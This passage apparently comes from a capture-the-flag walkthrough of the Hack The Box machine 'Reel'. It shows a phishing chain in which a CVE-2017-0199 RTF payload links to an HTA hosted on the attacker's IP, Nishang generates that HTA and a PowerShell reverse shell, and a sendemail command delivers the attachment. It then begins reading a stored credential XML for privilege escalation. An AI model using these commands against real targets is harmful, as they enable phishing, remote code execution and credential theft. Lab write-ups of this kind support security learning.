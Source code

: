 As it says _250 OK_ the mail server does know this email address and we can proceed but we can't execute anything that was described in the _AppLocker.docx_ file.

### Creating the malicious attachment

To generate a malicious RTF file we will use [this exploit toolkit](https://github.com/bhdresh/CVE-2017-0199):
```markdown
python cve-2017-0199_toolkit.py -M gen -w payload.rtf -u 'http://10.10.14.23/link.hta' -t RTF -x 0
```

We got the malicious RTF file _payload.rtf_ and now we need a HTA file that we will generate with **Nishang** with the script **Out-HTA.ps1**.
As this is a Powershell script we either need to start a Powershell command line on our machine or do this with a Windows machine.
I will use **pwsh** that can be installed from Microsofts repository for Linux.

```markdown
Out-HTA -PayloadURL http://10.10.14.23/shell.ps1
```

This creates the file **WindDef_WebInstall.hta** that I will call **link.hta** so I can type it faster.
For our reverse shell we will use the script **Invoke-PowerShellTcp.ps1** from **Nishang** that I call **shell.ps1**.

To summarize what we got now:
- payload.rtf
  - This will be sent to the user and contains a link to the HTA file **link.hta**
- link.hta
  - This will redirect the user to execute the reverse shell **shell.ps1**
- shell.ps1
  - This is the reverse shell that listens on my machines IP and port 9001

Now we can send the email:
```markdown
sendemail -f test@megabank.com -t nico@megabank.com -u RTF -m "Please look at this file" -a payload.rtf -s 10.10.10.77
```

After some seconds the HTA file will be downloaded, inspected by the user, and start a reverse shell on the box!

## Privilege Escalation 1

We are now on the box as the user **htb\nico**. Interestingly enough this is not a local user but a domain user.

Look at the AppLocker policy if you are interested in that:
```powershell
Get-ApplockerPolicy -Effective -xml
```

In the desktop directory of _nico_ is another file other than user.txt that looks interesting. It is called *cred.xml* and this is the content:
```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
```